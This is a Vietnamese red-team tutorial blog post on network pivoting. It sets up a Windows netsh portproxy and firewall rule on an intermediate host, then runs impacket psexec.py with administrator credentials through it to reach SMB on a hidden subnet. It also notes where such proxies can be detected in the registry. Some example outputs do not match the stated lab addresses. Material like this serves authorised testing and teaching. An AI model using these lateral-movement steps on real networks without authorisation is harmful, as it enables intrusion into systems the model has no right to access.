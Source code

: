 ```yaml
--- 
layout: post
title: "Pivoting: Setting up a port proxy with netsh on windows"
categories: "Network Pivot Redteam"
author: Rosiz
mathjax: true
---
```



* content
{:toc}

Pivoting là một skill thiết yếu cần được trang bị cho một Red Teamer. Khi bạn đứng bên trong một network và bạn vô tình tìm thấy một server, mà nó có thể giao tiếp với một subnet mục tiêu mà bạn đang theo đuổi, câu hỏi là làm gì tiếp theo?

Là một Red Teamer bạn sẽ muốn tận dụng lợi thế này để có thể attack những gì trên đó và có thể đi sâu và xa hơn vào trong của hệ thống mạng của target.

"Pivoting" là gì? Bạn có thể hiểu Pivoting là cách bạn đi từ chỗ đứng hiện tại của mình đến nơi bạn muốn đến?

Vậy thì Pivoting bằng cách nào? Thì hôm này mình xin giới thiệu cách setup một portproxy giữa máy của bạn và máy client nằm trong subnet mục tiêu bằng cách sử dụng netsh trên Windows.

![](https://raw.githubusercontent.com/rosiz/rosiz.github.io/master/__photo/__no1/1.PNG)

Ví dụ trong ngữ cảnh ta có một máy A có thể thấy được máy B, mà trên B được cấu hình thêm một interface hoặc được route để thấy được một subnet khác, bao gồm máy C. Như vậy máy A không thể thấy trực tiếp được máy C, và ngược lại. Vậy thì làm sao để khai thác máy C từ A?

![](https://raw.githubusercontent.com/rosiz/rosiz.github.io/master/__photo/__no1/2.PNG)

- Machine A: 172.16.0.20
- Machine B: 172.16.0.11 và 7.7.7.11
- Machine C: 7.7.7.20

## Seting on machine B

```js
netsh interface portproxy add v4tov4 listenport=8080 connectport=445 connectaddress=7.7.7.20
```

Ở đây, ta đang tiến hành setup một portproxy sẽ listen trên port 8080 và nó sẽ nhậ gửi data đến conectAddress (A) trên port 445. Điều này sẽ được thực hiện thông qua kết nối TCP riêng biệt.

Ta có thể kiểm tra setting bằng lệnh dưới đây:

```js
netsh interface portproxy show v4tov4
```

```js
Listen on IPv4:             Connect to IPv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
*               8080        192.168.1.2     445
```

*Note:* Portproxy config sẽ được lưu trong registry, vì vậy đây là nơi bạn có thể phát hiện các persistence portproxies mà không sử dụng netsh.

```js
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\PortProxy\v4tov4\tcp

*/1337       : 192.168.1.2/8000
```

Để tiếp tục quá trình thừ nghiệm, bạn hãy tiến hành mở port trên máy B bằng lệnh sau:

```js
netsh advfirewall firewall add rule name="Proxy all the things" dir=in action=allow protocol=TCP localport=8080
```

Bạn có thể hiểu như thế này, nếu máy A muốn kết nối đến port 445 của máy C (7.7.7.20) thì nó phải bắt buộc đẩy traffic đến port 8080 của máy B (172.16.0.11)

## On Machine A:

Trong trường hợp này mình sẽ dùng công cụ psexec.py của bộ công cụ impacket để thực hiện kết nối đến máy C (7.7.7.20:445) thông qua máy B (172.16.0.11:8080)

```js
psexec.py Domain/Administrator:123@172.16.0.11 -port 8080
```
*Note:* Bạn cần chỉnh sữ port trong script python psexec.py để thực hiện điều này.

Sau khi hoàn toàn công việc, bạn muốn remove portproxy, bạn có thể sử dụng lệnh sau:

```js
netsh interface portproxy delete v4tov4 listenport=8080
```